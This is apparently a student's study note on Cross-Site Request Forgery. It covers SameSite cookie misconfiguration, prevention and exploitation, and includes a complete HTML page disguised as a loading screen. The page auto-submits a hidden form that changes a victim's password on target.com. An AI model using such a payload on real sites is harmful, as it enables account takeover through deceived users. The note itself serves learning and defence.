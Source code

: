 # 06.csrf

12/05/25

## Recall

- What is CSRF (Cross-Site Request Forgery)?
- How does it abuse a victim’s authenticated session?
- What conditions make CSRF possible?
- What are common targets in CSRF attacks?

## Notes

### What it is

**CSRF (Cross-Site Request Forgery)** is a web vulnerability that allows an attacker to perform unauthorized actions on behalf of an authenticated user by **tricking the user’s browser into sending a forged request** to the target application. Since the browser automatically includes session cookies with requests, the forged request is processed as if it came from the legitimate user.

CSRF attacks typically rely on poor session cookie configurations, such as missing or misused `SameSite` attributes, and require **social engineering** to lure the victim into executing the malicious request — often by hosting the payload on a website controlled by the attacker.

### How to identify it

 identify a CSRF vulnerability, the first step is to inspect how the application handles session cookies. If the `SameSite` attribute is missing or set to ****`None`, the browser will send the session cookie even on cross-site requests — which makes the attack possible.

![image.png](images/08.01.samesite-policy-misconfig.png)

In this example, the session cookie has `SameSite=None`, which means it can be sent along with cross-origin requests, even from an attacker-controlled domain.

### How to exploit it

After confirming the vulnerability, the attacker looks for sensitive actions that can be triggered via authenticated requests — such as **changing a user’s password** or **modifying profile settings**.

Once the endpoint and request format are understood:

![image.png](images/08.02.understanding-the-request.png)

…the attacker can craft a malicious HTML page that silently sends the same request when a victim loads the page:

```bash
<!DOCTYPE html>
<html lang="en">
	<head>  
		<meta charset="UTF-8">  
		<title>Loading...</title>  
		<style>    
			body {      
				font-family: sans-serif;      
				background-color: #f4f4f4;      
				text-align: center;      
				padding-top: 100px;      
				color: #444;    
			}    
			.loader {      
				font-size: 1.2rem;    
			}  
		</style>
	</head>	
	<body>  
		<h1>Connecting to secure server...</h1>  
		<p class="loader">Please wait while we verify your session.</p>
    <form action="http://target.com/index.php?action=update" method="POST" id="csrf-form">      
			<input type="hidden" name="email" value="guest@guest.com">      
		  <input type="hidden" name="password" value="123">    
	  </form>
	  
  <script>    
	  document.getElementById('csrf-form').submit();  
	 </script>
	</body>
</html>
```

By hosting this page and luring the victim into visiting it, the attacker can silently force a password change request using the victim’s session — effectively taking control of their account.

## Summary

CSRF is a vulnerability that allows an attacker to perform unauthorized actions on behalf of an authenticated user by forging a request and leveraging the browser’s automatic behavior of including session cookies. The attack relies on poor cookie configurations (especially the lack of a proper `SameSite` policy) and social engineering to trigger the action. When successful, the attacker can change account settings, transfer funds, or perform other critical operations without the victim's awareness. Preventing CSRF involves enforcing strict SameSite policies, validating request origins, and using anti-CSRF tokens for sensitive operations.